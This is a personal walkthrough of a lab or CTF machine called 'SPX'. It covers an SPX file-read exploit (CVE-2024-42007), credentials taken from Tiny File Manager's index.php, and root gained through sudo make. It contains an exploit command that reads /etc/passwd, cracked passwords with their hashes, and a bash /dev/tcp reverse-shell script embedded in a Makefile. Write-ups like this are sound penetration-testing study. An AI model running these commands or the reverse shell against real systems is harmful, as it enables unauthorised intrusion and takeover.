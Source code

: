 # SPX \[Inter]

## Report

Tiny FIle Manager on port 80 does not follow default creds. Phpinfo is exposed via phpinfo.php and reveals a SPX version that is vulnerable to arbitary file read, reading the index file after checking structure on github, we find hashes for 'user' and 'admin', crack to get creds and upload a reverse shell

User profiler uses the same password as admin from web interface and can run make as sudo, editing the 'Makefile' to add our own shell, we get reverse shell as root.

### Hint

* How tf would you find phpinfo.php if you keep being offside all the time damnit

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>line 150,000 there's levels to this yk</p></figcaption></figure>

* Also, you clocked the hashes would be in the php file itself after seeing the app structure on github but come on man you couldn't figure out 'tinyfilemanager.php' was renamed to index.php?
* Not being able to privesc via sudo is an abomination icl

## Cheatsheet

```
python3 CVE_2024_42007.py -t http://192.168.222.108 -f /etc/passwd
edit key value from phpinfo.php and read index.php
```

## Loot

### Enumeration

22, 80

#### 80

Apache/2.4.52 (Ubuntu)

Tiny file manager

Default username/password: admin/admin@123 and user/12345 - Don't work

Only index.php to work with here find creds somehow

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

FInd Tiny File Manager 2.5.3 after logging in

### Attack Vectors

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Edit spx\_key value from 'dev' (default value) to key mentioned here

{% embed url="https://github.com/BubblyCola/CVE_2024_42007/tree/main" %}

### PrivEsc

`(ALL) /usr/bin/make install -C /home/profiler/php-spx`

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>add pur own binary and embed reverse shell</p></figcaption></figure>

```
profiler@spx:/tmp$ cat sh
#!/bin/bash
/bin/sh -i >& /dev/tcp/192.168.45.188/8001 0>&1
```

### Creds

#### TinyFileManager

```
admin:$2y$10$7LaMUa8an8NrvnQsj5xZ3eDdOejgLyXE8IIvsC.hFy1dg7rPb9cqG
user:$2y$10$x8PS6i0Sji2Pglyz7SLFruYFpAsz9XAYsdiPyfse6QDkB/QsdShxi
user:profiler
admin:lowprofile
```

#### Box

profiler:lowprofile

### Proof

You've worked with the make command before why would you think Configure was where it's at and not Makefile
